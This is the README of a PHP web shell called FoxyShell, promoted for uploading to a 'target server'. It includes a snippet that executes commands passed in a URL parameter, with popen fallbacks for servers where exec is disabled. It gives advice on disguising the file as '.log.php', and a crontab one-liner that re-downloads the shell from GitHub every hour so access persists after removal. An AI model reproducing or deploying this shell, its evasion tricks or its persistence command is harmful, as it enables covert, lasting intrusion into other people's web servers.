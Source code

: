 # FoxyShell – PHP Web Shell

**FoxyShell** is a flexible, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI, and supports several file operations and a built-in terminal. Even if some PHP functions like `exec` or `shell_exec` are disabled, FoxyShell can attempt to leverage other workarounds (like `popen`, etc.) to run commands – making it resilient in restricted environments.

![Preview](videos/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Terminal**        | Run commands on the server (includes fallback if certain PHP functions are disabled).     |
| **File Manager**    | View and manage files with a dynamic sidebar.                                             |
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Breadcrumb**      | Clickable path segments to move between directories.                                      |
| **Stealth**         | Can be hidden (e.g., rename to .log.php), e.g. `foxyshell.php` → `.log.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `403 Forbidden`, The text color will change to orange when selected. |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based dark mode, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxyshell.php``` to your target server, or hide it (e.g. ```.log.php```).  
- **REST-ish endpoints**: can be extended for automation.  
- **Potential** to add an “API KEY” check in ```foxyshell.php``` to secure access.

---

## Installation

1. **Upload** the single file ```foxyshell.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxyshell.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **Terminal** to run commands (like ```ls -1```, ```cd /admin```, etc.).  
4. **Terminal** usage example:

   ```bash
   $ ls
   admin/
   index.php
   ...
   ```

5. **File creation** or **rename** operations are inline: you’ll see an input plus check and X icons to confirm or cancel.

**Example** minimal code snippet (in ```foxyshell.php```), (replace ``` with actual backticks in real usage):
```php
<?php
// Minimal example snippet
// Insert fallback logic for popen / shell_exec, etc.

if (!empty($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    // Use fallback 'popen' if 'exec' is disabled
    $descriptors = @popen($cmd . ' 2>&1', 'r');
    if ($descriptors) {
        while(!feof($descriptors)) {
            echo fgets($descriptors);
        }
        pclose($descriptors);
    } else {
        echo "Failed to run command\n";
    }
    exit;
}

// ... add your UI logic, forms, etc. ...
```

---

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.log.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell tries alternate methods like ```popen```. If everything is disabled, certain commands might fail – but the file manager, upload, rename, etc., would still work.

**Q**: How do I create folders that start with a dot?  
**A**: In the “New Folder” prompt, type ```.secret``` – the shell calls ```mkdir .secret```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

**Q**: How can I always have access even if the shell file has been deleted?
**A**: You can use crontab to automatically create a shell file in `/public_html/` every hour.

#
Example: (change `name.php` and `username` according to the server and file name you want)
```
(crontab -l 2>/dev/null; echo "0 * * * * /usr/bin/curl -s \"https://raw.githubusercontent.com/rubahilang/FoxyShell-PHP-Web-Shell/refs/heads/main/foxyshell.php\" -o /home/username/public_html/name.php") | crontab -
```
---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
